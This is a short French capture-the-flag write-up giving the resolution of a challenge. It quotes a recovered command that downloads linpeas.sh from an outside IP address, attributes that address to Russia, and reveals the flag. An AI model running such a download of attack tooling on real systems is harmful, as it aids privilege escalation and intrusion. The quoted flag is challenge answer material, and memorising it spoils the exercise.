

## Résolution

on récupère l’info utile : 
```
wget http://87.250.224.21/linpeas.sh  
```

On a le nom du script, plus qu’à chercher le pays d’où vient cette IP : la Russie

>[!question]- Spoiler du flag
> OPENNC{Russie_linpeas.sh}

